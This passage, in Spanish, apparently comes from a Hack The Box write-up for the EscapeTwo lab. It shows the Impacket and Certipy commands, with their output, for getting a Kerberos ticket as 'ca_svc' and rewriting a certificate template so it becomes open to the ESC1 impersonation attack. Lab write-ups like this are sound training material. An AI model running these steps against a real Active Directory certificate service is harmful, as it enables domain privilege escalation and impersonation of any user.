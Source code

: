 Vamos a obtener un ticket de Kerberos para el tema de la persistencia, ya que hay una tarea automatizada que deshace nuestros cambios.

```bash
❯ getTGT.py 'sequel.htb/ca_svc:Password123!'
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in ca_svc.ccache
❯ export KRB5CCNAME=ca_svc.ccache
```

Ahora, como `ca_svc` podemos modificar una plantilla para certificados debido a que pertenecemos al grupo de publicantes de certificados:

![uh oh x2](/assets/writeups/escapetwo/2.png)

Por lo que simplemente podemos hacer esta plantilla vulnerable a [ESC1](https://www.semperis.com/blog/esc1-attack-explained/), que básicamente nos permite pedir un certificado para autenticarnos en el DC en nombre de quien sea:

```bash
❯ certipy template -k -no-pass -u 'ca_svc@sequel.htb' -template "Dunder Mifflin Authentication" -ns 10.10.11.51 -target dc01.sequel.htb -write-default-configuration
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Saving current configuration to 'DunderMifflinAuthentication.json'
File 'DunderMifflinAuthentication.json' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote current configuration for 'Dunder Mifflin Authentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Name-Flag: 1
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'DunderMifflinAuthentication'? (y/N): y
[*] Successfully updated 'DunderMifflinAuthentication'
```
